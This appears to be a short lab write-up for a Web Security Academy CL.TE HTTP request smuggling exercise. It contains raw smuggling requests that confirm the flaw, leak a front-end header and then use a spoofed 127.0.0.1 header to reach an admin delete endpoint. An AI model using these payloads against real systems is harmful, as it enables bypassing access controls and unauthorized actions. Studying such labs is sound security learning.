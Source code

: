 
This request return a time error, confirm a **CL.TE** vul
```
POST / HTTP/1.1
Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

3
abc
X
```
This request is to leak the added header
```
POST / HTTP/1.1
Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 102

0

POST / HTTP/1.1
Content-Length: 300
Content-Type: application/x-www-form-urlencoded

search=a
```
```html
<section class=blog-header>
    <h1>0 search results for 'aPOST / HTTP/1.1
        X-GiSHJo-Ip: 103.238.68.82
        Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
        Content-Type: application/x-www-form-urlencoded
        Transfer-Encoding: chunked
        Content-Length: 102

        0

        POST / HTTP/1.1
        Content-Length: 300
        Content-Type: application/x-www-form-ur'</h1>
    <hr>
</section>
```
Attack request:
```
POST / HTTP/1.1
Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 244

0


GET /admin/delete?username=carlos HTTP/1.1
Host: 0a27004904d6301e802c851800af00ab.web-security-academy.net
X-GiSHJo-Ip: 127.0.0.1
Content-Length: 16
Content-Type: application/x-www-form-urlencoded
Connection: close

nglong05=hello
```